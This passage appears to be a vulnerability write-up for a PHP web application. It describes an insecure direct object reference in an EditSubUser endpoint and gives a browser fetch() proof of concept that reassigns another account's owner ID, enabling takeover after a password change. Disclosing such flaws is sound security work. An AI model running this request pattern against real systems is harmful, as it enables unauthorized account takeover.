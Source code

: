 ```php
        http_response_code(400);
        return json_encode(["status" => "error", "message" => "Enter All Fields"]);
    }
    
    $service = new UsersService();
    return $service->editSubUser($data['id'],$data['newName'],$user->getId());
}
```

The `editSubUser` function has no verification that you own the user you're trying to edit!

How the Attack Works
When we make our request in the console(you can use burp):
```javascript
fetch('../api/EditSubUser.php', {
  method: 'POST',
  headers: { 'Content-Type': 'application/json' },
  body: JSON.stringify({
    id: 9050,  // ID of account 500
    newName: "test"
  })
})
```
This triggers a chain of calls:

- `EditSubUser.php` receives our request
- Calls `UserController->editSubUser()` with our data  
- No ownership verification happens  
- Calls `UsersService->editSubUser(9050, "test", YOUR_ID)`  
- Calls `UsersRepository::EnsureEditUserAuthority(9050, YOUR_ID) ` 
- The SQL that executes is:
```sql
UPDATE users SET OwnerId = YOUR_ID WHERE UserId = 9050
```
This changes the database record in the users table from:
```
UserId: 9050, OwnerId: 1
```
To:
```
UserId: 9050, OwnerId: YOUR_ID
```
Now account `500` (with ID `9050`) belongs to you as its `owner`, making you able to access it directly after changing its password.
